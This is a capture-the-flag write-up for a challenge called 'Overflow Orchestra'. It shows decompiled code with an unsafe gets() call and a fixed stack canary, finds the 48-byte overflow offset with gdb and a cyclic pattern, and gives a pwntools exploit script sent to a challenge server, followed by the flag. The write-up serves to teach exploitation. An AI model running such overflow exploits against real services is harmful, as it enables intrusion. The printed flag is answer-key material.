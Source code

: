 +++
title = 'Overflow Orchestra'
date = '2024-09-05'
authors = {"Achintya J"}
+++

# Overflow Orchestra


This is how the canary is implemented here (This is the decompiled function through IDA)

		v6 = 0LL;
		v5 = 0x6C9B1F74;
		puts("Oops! I hope that wasn't your plan all along.");
		fflush(_bss_start);
		gets(v3, argv);
		v4 = v5 ^ 0x6C9B1F74;
		if ( v5 != 0x6C9B1F74 )
		{
		puts("Surprise! Something went wrong, didn't it?");
		puts("Who let the bugs out?");
		exit(1);
		}

This means, we effectively have the canary leaked... 

and,

		if ( v6 == 0xDEADBEEF )
		{
		puts("Well, I guess you've earned this...");
		system("cat flag.txt");
		}
		else
		{
		printf("code == 0x%llx\n", v6);
		printf("code != 0x%llx :(\n", 3735928559LL);
		puts("Well, that was unexpected...");
		}
		exit(0);
		}

This means, we still got to rewrite the `v6` variable. 

Let's analyse using `gdb`. Run the following commands in succession, 

		gdb ./vuln
		disassemble main

We can see in the disassembly that at the address `main+79` or `0x0000000000001238` there is an `xor` instruction. This is what we need to see, because we want to figure out the number of bytes we should write to change the value being xored. 

After running, we can enter this string "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" and see that the RAX registry contains, "Ab6Ab7Ab", which is at an offset of 48.

Hence, after 48 bytes, whatever is written is being xored with `0x6c9b1f74`. If we need the answer to be 0, we need to send in the same data here. We can also see this in the stack dump in ghidra,

		undefined main()
		undefined         AL:1           <RETURN>
		undefined8        Stack[-0x10]:8 ToRewrite                               XREF[3]:     001011f5(W), 
		undefined8        Stack[-0x18]:8 TheCanary                               XREF[2]:     001011fd(W), 
		undefined8        Stack[-0x20]:8 xored                                   XREF[2]:     0010123e(W), 
		undefined1[40]    Stack[-0x48]   input                                   XREF[1]:     00101223(*)  

We can see that right after the canary is the variable we want to rewrite into `0xdeadbeef`. Thus, this script will be do everything,

		from pwn import *
		context.binary = binary = ELF("./vuln")
		context.log_level = "critical"
		payload = flat([
			b"A"*48,
			p64(0x6c9b1f74),
			p32(0xdeadbeef)
			])
		p = remote('10.21.232.38', 7002)
		p.sendline(payload)
		p.interactive()

flag: `iitmCTF{0v3rfl0w_0p3r4_t1c}`
